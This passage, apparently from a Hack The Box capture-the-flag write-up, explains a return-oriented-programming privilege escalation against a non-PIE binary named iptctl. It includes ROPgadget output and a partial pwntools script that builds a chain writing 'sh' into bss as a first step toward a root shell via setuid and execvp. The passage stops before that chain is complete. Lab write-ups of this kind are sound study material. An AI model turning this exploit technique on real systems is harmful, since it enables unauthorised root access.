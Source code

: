 Good thing the binary is a non position-independent executable (PIE), and as such, function address in the procedure linkage table (PLT) doesn't change. Another blessing was the binary contained plenty of ROP gadgets for use. I was able to write `sh` using `strcpy@plt` to an address within `bss`, which also doesn't change. Lastly, I used `setuid@plt` and `execvp@plt` to spawn a `root` shell.

There are plenty of tools out there that help to generate a list of ROP gadgets. I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget).

```
# ROPgadgets --binary iptctl
...
0x00000000004006c2 : add rsp, 8 ; ret
0x0000000000400de3 : pop rdi ; ret
0x0000000000400de1 : pop rsi ; pop r15 ; ret
0x00000000004006c6 : ret
```

I used these ROP gadgets to chain together an exploit.

<div class="filename"><span>exploit.py</span></div>

```python
'''
# ROPgadget --binary iptctl --memstr "sh"
Memory bytes information
=======================================================
0x000000000040024f : 's'
0x000000000040046f : 'h'
'''

from pwn import *

shell = [ 0x40024f, 0x40046f ]  # 's' and 'h'

# front matter
newline = "\n"
action  = "show"
offset  = "A" * 8
address = "255.255.255.255\x00"
writeme = 0x6020a0  # avoid start of bss
payload = ''        # bss is at 0x602090

# functions@plt
execvp = 0x400760
setuid = 0x400780
strcpy = 0x4006f0

# gadgets
pop_rdi_ret = 0x400de3
pop_rsi_pop_ret = 0x400de1
ret = 0x4006c6
skip = 0x4006c2

# exploit format
payload += action
payload += newline
payload += address
payload += offset

# write "sh" to 0x6020a0 - 112 bytes
for i in range(len(shell)):
	payload += p64(pop_rsi_pop_ret)
	payload += p64(shell[i])
	payload += p64(skip)
	payload += p64(pop_rdi_ret)
	payload += p64(writeme+i)
```

[1]: https://www.hackthebox.eu/home/machines/profile/162
[2]: https://www.hackthebox.eu/home/users/profile/9631
[3]: https://www.hackthebox.eu/